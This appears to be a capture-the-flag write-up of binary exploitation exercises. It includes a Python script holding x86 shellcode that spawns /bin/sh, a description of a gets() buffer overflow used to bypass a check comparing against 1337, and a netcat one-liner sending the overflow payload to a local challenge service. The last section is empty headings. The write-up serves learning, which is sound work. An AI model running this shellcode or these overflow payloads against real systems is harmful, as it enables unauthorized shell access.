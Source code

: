 Script/Command used
--------------------
```
import struct

shellcode = "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
payload = "\x41"*(8204-len(shellcode))
#payloadd = "BBBB"*23
eax = "\x06\x84\x04\x08"
print shellcode + payload + eax
```

canary-1
=========

General overview of problem faced
----------------------------------
1. Had to research in order to understand what a canary does to the stack

List of vulnerabilities
------------------------
1. Uses gets() which keeps on reading until it reaches a new line or an EOF allowing an easy buffer overflow.

Steps to exploit
----------------
1. Disassemble the main and notice it doesn't do much except for when it calls check canary.
2. Disassemble the check_canary function and notice it calls get and has a strcmp and test eax,eax and a jne after the test eax eax. 
3. We need to set a break point at strcmp to see what it is commparing and we notice that it is comparing against 1337.
4. Overflow the buffer at gets and add 1337 at the end of the payload so when it compares and test eax, eax is executed the value doesn't equal to zero and causes a bin/sh to be executed.

Script/Command used
--------------------
```
(python -c "print('AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH1337')";cat -)|nc 0.0.0.0 6001
```

canary-2
=========

General overview of problem faced
----------------------------------


List of vulnerabilities
------------------------


Steps to exploit
----------------

